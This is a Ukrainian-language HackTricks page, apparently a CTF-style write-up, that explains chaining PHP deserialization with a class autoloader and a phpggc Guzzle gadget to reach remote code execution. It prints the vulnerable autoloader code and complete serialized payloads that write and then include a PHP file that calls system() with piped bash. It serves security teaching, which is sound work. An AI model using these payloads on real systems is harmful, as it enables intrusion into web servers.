 # PHP - Десеріалізація + Автозавантаження класів

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

First, you should check what are [**Автозавантаження класів**](https://www.php.net/manual/en/language.oop5.autoload.php).

## PHP десеріалізація + spl\_autoload\_register + LFI/Gadget

Ми знаходимося в ситуації, коли знайшли **десеріалізацію PHP у веб-додатку** без **жодної** бібліотеки, вразливої до гаджетів всередині **`phpggc`**. Однак у тому ж контейнері була **інша веб-додаток composer з вразливими бібліотеками**. Тому метою було **завантажити завантажувач composer іншого веб-додатку** і зловживати ним, щоб **завантажити гаджет, який експлуатуватиме цю бібліотеку з гаджетом** з веб-додатку, вразливого до десеріалізації.

Кроки:

* Ви знайшли **десеріалізацію**, і в поточному коді програми **немає жодного гаджета**
* Ви можете зловживати функцією **`spl_autoload_register`** на кшталт наступної, щоб **завантажити будь-який локальний файл з розширенням `.php`**
* Для цього ви використовуєте десеріалізацію, де ім'я класу буде всередині **`$name`**. Ви **не можете використовувати "/" або "."** в імені класу в серіалізованому об'єкті, але **код** **замінює** **підкреслення** ("\_") **на слеші** ("/"). Тож ім'я класу, таке як `tmp_passwd`, буде перетворено на `/tmp/passwd.php`, і код спробує його завантажити.\
Приклад **гаджета** буде: **`O:10:"tmp_passwd":0:{}`**
```php
spl_autoload_register(function ($name) {

if (preg_match('/Controller$/', $name)) {
$name = "controllers/${name}";
} elseif (preg_match('/Model$/', $name)) {
$name = "models/${name}";
} elseif (preg_match('/_/', $name)) {
$name = preg_replace('/_/', '/', $name);
}

$filename = "/${name}.php";

if (file_exists($filename)) {
require $filename;
}
elseif (file_exists(__DIR__ . $filename)) {
require __DIR__ . $filename;
}
});
```
{% hint style="success" %}
Якщо у вас є **завантаження файлів** і ви можете завантажити файл з **розширенням `.php`**, ви можете **безпосередньо зловживати цією функціональністю** і отримати вже RCE.
{% endhint %}

У моєму випадку у мене не було нічого подібного, але всередині **того ж контейнера** була інша веб-сторінка композера з **бібліотекою, вразливою до гаджета `phpggc`**.

* Щоб завантажити цю іншу бібліотеку, спочатку потрібно **завантажити завантажувач композера тієї іншої веб-аплікації** (оскільки завантажувач поточної аплікації не зможе отримати доступ до бібліотек іншої). **Знаючи шлях до аплікації**, ви можете досягти цього дуже легко за допомогою: **`O:28:"www_frontend_vendor_autoload":0:{}`** (У моєму випадку завантажувач композера був у `/www/frontend/vendor/autoload.php`)
* Тепер ви можете **завантажити** інший **завантажувач композера аплікації**, тому настав час **`згенерувати phpgcc`** **payload** для використання. У моєму випадку я використовував **`Guzzle/FW1`**, що дозволило мені **записувати будь-який файл у файловій системі**.
* ЗАУВАЖТЕ: **згенерований гаджет не працював**, щоб він працював, я **модифікував** цей payload **`chain.php`** phpggc і встановив **всі атрибути** класів **з приватних на публічні**. Якщо ні, після десеріалізації рядка атрибути створених об'єктів не мали жодних значень.
* Тепер у нас є спосіб **завантажити інший завантажувач композера аплікації** і мати **phpggc payload, який працює**, але нам потрібно **зробити це в ТІЙ ЖЕ ЗАПИТІ, щоб завантажувач був завантажений, коли гаджет використовується**. Для цього я надіслав серіалізований масив з обома об'єктами, як:
* Ви можете побачити **спочатку завантажувач, що завантажується, а потім payload**

{% code overflow="wrap" %}
```php
a:2:{s:5:"Extra";O:28:"www_frontend_vendor_autoload":0:{}s:6:"Extra2";O:31:"GuzzleHttp\Cookie\FileCookieJar":4:{s:7:"cookies";a:1:{i:0;O:27:"GuzzleHttp\Cookie\SetCookie":1:{s:4:"data";a:3:{s:7:"Expires";i:1;s:7:"Discard";b:0;s:5:"Value";s:56:"<?php system('echo L3JlYWRmbGFn | base64 -d | bash'); ?>";}}}s:10:"strictMode";N;s:8:"filename";s:10:"/tmp/a.php";s:19:"storeSessionCookies";b:1;}}
```
{% endcode %}

* Тепер ми можемо **створити та записати файл**, однак користувач **не міг записувати в жодну папку всередині веб-сервера**. Отже, як ви можете бачити в payload, PHP викликає **`system`** з деяким **base64**, який створюється в **`/tmp/a.php`**. Потім ми можемо **повторно використовувати перший тип payload**, який ми використовували як LFI, щоб завантажити завантажувач composer іншого веб-додатку **для завантаження згенерованого `/tmp/a.php`** файлу. Просто додайте його до гаджета десеріалізації:&#x20;

{% code overflow="wrap" %}
```php
a:3:{s:5:"Extra";O:28:"www_frontend_vendor_autoload":0:{}s:6:"Extra2";O:31:"GuzzleHttp\Cookie\FileCookieJar":4:{s:7:"cookies";a:1:{i:0;O:27:"GuzzleHttp\Cookie\SetCookie":1:{s:4:"data";a:3:{s:7:"Expires";i:1;s:7:"Discard";b:0;s:5:"Value";s:56:"<?php system('echo L3JlYWRmbGFn | base64 -d | bash'); ?>";}}}s:10:"strictMode";N;s:8:"filename";s:10:"/tmp/a.php";s:19:"storeSessionCookies";b:1;}s:6:"Extra3";O:5:"tmp_a":0:{}}
```
{% endcode %}

**Резюме корисного навантаження**

* **Завантажити автозавантаження композера** іншого веб-додатку в тому ж контейнері
* **Завантажити гаджет phpggc** для зловживання бібліотекою з іншого веб-додатку (первинний веб-додаток, вразливий до десеріалізації, не мав жодного гаджета у своїх бібліотеках)
* Гаджет **створить файл з PHP корисним навантаженням** у /tmp/a.php з шкідливими командами (користувач веб-додатку не може записувати в жодну папку жодного веб-додатку)
* Остання частина нашого корисного навантаження буде використовувати **завантажити згенерований php файл**, який виконає команди

Мені потрібно було **викликати цю десеріалізацію двічі**. У моєму тестуванні, перший раз файл `/tmp/a.php` був створений, але не завантажений, а вдруге його було правильно завантажено.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
